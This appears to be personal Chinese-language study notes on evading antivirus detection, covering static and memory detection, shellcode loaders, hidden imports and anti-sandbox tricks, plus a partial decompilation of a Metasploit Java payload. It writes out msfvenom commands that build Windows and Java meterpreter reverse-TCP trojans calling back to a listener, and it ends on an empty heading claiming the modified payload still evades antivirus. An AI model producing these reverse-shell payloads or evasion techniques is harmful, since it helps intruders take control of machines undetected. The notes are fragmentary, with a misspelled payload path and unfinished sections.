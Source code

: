 ## 杀软查杀规则
>if 应用 has 签名 then return
>else（投入和回报不成正比）
- 静态特征（国内）：
	- 加密shellcode + 垃圾代码 + 加载器 解密shellcode(静态特征转换成内存查杀，程序必须运行起来才可以加载shellcode)-->申请内存-->创建线程-->等待结束。
	- 加载器：IAT 导出表 当前exe调用的api
		- 替换函数
		- 隐藏导出表 import（不直接导入函数，使用内存寻址方式找到函数）
		- 反沙箱
			- 检查鼠标和键盘
			- 延迟10s
			- 检查进程qq 微信 wps
			- 堆栈溢出 让沙箱崩溃
			- 分离免杀（直接点击应用启动不了）
- 内存查杀（国外）（静态查杀一过第一件事情就是干掉杀软）
	- 内核态
	- 用户态
- 行为查杀



## 生成木马上线

```bash
msfvenom -p winodws/meterpreter/reverse_tcp LHOST=192.168.0.110 LPORT=444 -f exe -o 123.exe

use exploit/multi/handler

```
## Meterpreter源码分析
[payload.zip](payload.zip)

```bash
msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.1.7 LPORT=4444 > 1.jar
```
###  jd-jui反编译源码
1. `META-INF` :`MANIFEST.MF`  ![](media/Pasted%20image%2020250814222625.png)
2. 入口文件![](media/Pasted%20image%2020250814222819.png)  
3. 反编译： ![](media/Pasted%20image%2020250814222842.png)  
### 分析源码

[payload.zip](payload.zip)

1. 继承ClassLoader： 为了实现defineClass这个方法 ![](media/Pasted%20image%2020250814225352.png)  
	1. defineClass ：Java提供给开发者一个加载字节码的方法
2. 

### 修改源码依旧上线成功免杀



